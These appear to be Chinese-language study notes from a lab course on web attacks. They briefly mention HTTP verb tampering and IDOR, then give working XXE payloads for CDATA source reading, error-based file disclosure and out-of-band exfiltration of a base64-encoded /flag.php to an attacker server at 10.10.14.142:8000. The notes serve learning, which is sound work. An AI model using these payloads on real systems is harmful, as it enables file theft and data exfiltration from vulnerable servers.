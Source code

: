 # Web Attacks

本模块涵盖三种常见的 Web 漏洞，即 HTTP 动词篡改、IDOR 和 XXE，每个漏洞都可能对公司的系统产生重大影响。我们将介绍如何通过各种方法识别、利用和防止它们中的每一个。

## HTTP HEAD/GET/POST/PUT/OPTIONS

## IDOR寻找

一般能够从前端js找到调用的js代码

## XXE - CDATA

对于非php的其他后端语言，我们想要尝试直接读取后端代码可以尝试使用CDATA，它会作为原始数据输出而不是被处理

xxe.dtd:

```xml
<!ENTITY p "%begin;%file;%end;">
```

这里调用参数实体，将文件包含在CDATA内输出

```xml
<!DOCTYPE xxx [
	<!ENTITY % begin "<[CDATA[">
	<!ENTITY % file SYSTEM "file:///index.php">
	<!ENTITY % end "]]>">
	<!ENTITY % xxe SYSTEM "http://IP:PORT/xxe.dtd">
	%xxe;
]>

<xxx>&p;</xxx>
```

这里需要使用参数实体，当参数实体在我们托管的dtd文件中引用时，参数实体将会被视为外部实体，这样就可以绕过限制，从而让外部实体与内部实体的CDATA连接

## 基于error的半盲XXE

上面的xxe都是因为有某个特定的参数会作为结果输出，但在没有输出的情况下，上面的方法是不可行的，我们可以尝试blind

当尝试使用未定义的tag或者实体的时候可能会引发error，如果后端未正确处理异常导致异常抛出，那么我们将能看到异常输出并尝试利用

xxe.dtd:

```xml
<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % xxe "<!ENTITY content SYSTEM '%file;'>">
```

```xml
<!DOCTYPE email [ 
  <!ENTITY % dtd SYSTEM "http://10.10.14.142:8000/xxe.dtd">
  %dtd;
  %xxe;
]>
```

这里通过参数实体来引入dtd当%xxe;被执行后，%xxe;会创建一个新的一般实体，而这个一般实体又引用了%file;（这里也可以使用不存在的实体进行引发错误，**至少有一个错误**）;  %file;读取的文件中作为&content;这个一般实体的值，由于这个值会被解析，只要文件中存在一些特殊字符，一旦被xml解释器解析后将可能引发错误，这就是为什么我们这个例子也会引发错误的原因

如果读取的文件中没有什么东西会引发错误，那么我们就需要手动引发错误：调用不存在的实体

```xml
<!ENTITY % xxe "<!ENTITY content SYSTEM '%ENTITY;%file;'>">
```

## 带外全盲XXE

全盲只是没有任何输出包括error。其实从半盲我们可以看得出，我们通过dtd的参数实体来访问文件

```xml
<!ENTITY % xxe "<!ENTITY content SYSTEM '%file;'>">
```

我们可以通过http协议发起远程文件访问，同时将我们想要访问的目标文件通过http请求携带过来

xxe.dtd:

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag.php">
<!ENTITY % xxe "<!ENTITY content SYSTEM 'http://10.10.14.142:8000/?file=%file;'>">
```

跟半盲的基于错误的xxe差不多，不过这次%xxe;参数实体创建一个一般实体，当我们调用这个实体的时候将会携带我们读取的文件内容，发送http请求到我们的攻击者服务器

```xml
<!DOCTYPE email [ 
  <!ENTITY % dtd SYSTEM "http://10.10.14.142:8000/xxe.dtd">
  %dtd;
  %xxe;
]>
<email>&content;</email>
```

这次我们需要手动调用这个外部实体

![在这里插入图片描述](https://img-blog.csdnimg.cn/e76ed406fbca44c6a62739521bf74ffc.png)

